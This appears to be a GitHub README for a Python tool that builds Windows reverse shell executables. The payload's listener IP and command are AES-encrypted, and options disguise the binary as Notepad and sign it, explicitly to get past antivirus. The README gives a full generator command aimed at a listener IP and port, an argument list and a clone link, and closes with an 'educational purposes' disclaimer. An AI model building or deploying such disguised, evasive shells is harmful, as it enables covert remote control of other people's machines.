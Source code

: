 # 🛡️ AES Encrypted Payload Generator

This tool generates a Windows reverse shell payload with **AES-encrypted IP and command values**, compiles it with optional **Notepad disguise**, and supports automatic cleanup.
  
---
  
## ⚙️ Features

- 🔐 AES (ECB mode) encryption for sensitive data
- 🧩 Dynamic payload generation in C
- 🪟 Native Windows API usage (with manual `GetProcAddress` resolution)
- 🎭 Optional Notepad spoofing (icon + metadata)
- 🛠️ Easy cross-compilation via MinGW (Linux)
  
---
  
## 🚀 Usage

### Basic Example
```bash
python3 payload_gen.py --ip 192.168.1.100 --port 4444 --notepad --sign
```
  
### Arguments
  
**--ip** : IP address of the reverse shell listener (required).  
**--port** : TCP port for the connection (default: 49557).  
**--cmd** : Command to execute (default: cmd.exe).  
**--notepad** : Mimic Notepad metadata and icon.  
**--keep** : Keep temporary files (.c, .rc, .res) after building.  
**--sign** : Uses sign_exe.py to sign the exe, improving AVs bypass.  
  
---
  
## Download
```bash
git clone https://github.com/WisePlace/Payload-Generator.git
```
  
---
  
## Disclaimer
  
**This project is provided strictly for educational and ethical security research purposes.  
Unauthorized use against third-party systems is illegal. You are solely responsible for how you use this code.**  
